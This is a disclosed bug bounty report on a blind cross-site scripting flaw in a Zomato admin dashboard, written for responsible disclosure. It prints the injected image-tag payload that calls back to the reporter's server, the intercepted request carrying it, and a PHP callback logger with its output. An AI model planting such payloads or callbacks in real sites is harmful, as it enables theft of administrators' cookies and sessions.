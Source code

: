 # [www.zomato.com] Blind XSS in one of the admin dashboard

## Report Details
- **Report ID**: 461272
- **URL**: https://hackerone.com/reports/461272
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-12-12T14:17:59.211Z
- **Disclosed**: 2019-05-01T07:05:15.495Z

## Reporter
- **Username**: nguyenlv7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
**Summary:**
Admin dasboard ████ from user has XSS Vul

## Steps To Reproduce:
  1. Login ██████
  1. Go to ███ function and intercept request
Post data: "><img src="http://<my_server_ip>/zomato.php?c=zomato_xss" />

```
POST ████ HTTP/1.1
X-Zomato-App-Version-Code: 5610001
██████████
███████
X-Zomato-API-Key: ███████
X-App-Language: &lang=en&android_language=en&android_country=VN
X-Zomato-App-Version: 561
X-Network-Type: wifi
X-Present-Long: ███████
X-Zomato-UUID: ████████
X-O2-City-Id: 35
User-Agent: &source=android_market&version=7.1.2&device_manufacturer=samsung&device_brand=samsung&device_model=SM-N9005&app_type=android_ordering
X-Access-Token: █████
X-Device-Pixel-Ratio: 1.5
X-City-Id: 35
X-Device-Width: 720
Content-Type: application/x-www-form-urlencoded
Akamai-Mobile-Connectivity: type=wifi;appdata=com.application.zomato.ordering;prepositioned=true;websdk=18.4.2;carrier=Viettel Telecom/452,04;devicetype=1;rwnd=2097152;
X-Client-Id: zomato_android_v2
X-Present-Lat: ██████
██████
X-Device-Height: 1280
Content-Length: 156
Host: api.zomato.com
Connection: close

█████="><img+src%3d"http%3a//<my_server_ip>/zomato.php%3fc%3dzomato_xss"+/>█████████
```

 1.  File **zomato.php** on my server:

```
<?php
$time = date('Y-m-d H:i:s', time());
$refer = $_SERVER['HTTP_REFERER'];
$ip = $_SERVER['REMOTE_ADDR'];
$c = isset($_GET['c']) ? $_GET['c']: '0';
file_put_contents("log.txt","Time: ". $time ."IP: ". $ip." Referer: ".$refer. "C: ". $c . "\n", FILE_APPEND);
?>
```
 1. XSS triggered when Admin viewed the ███████.

 1. Result in file **log.txt** time UTC

```
Time: 2018-12-12 13:49:25IP: █████ Referer: C: zomato_xss
Time: 2018-12-12 14:01:17IP: ████████ Referer: C: zomato_xss
```

I captured 2 ip from India.
Please verify for me.

## Impact

* Steal admin cookies.

## Attachments
No attachments

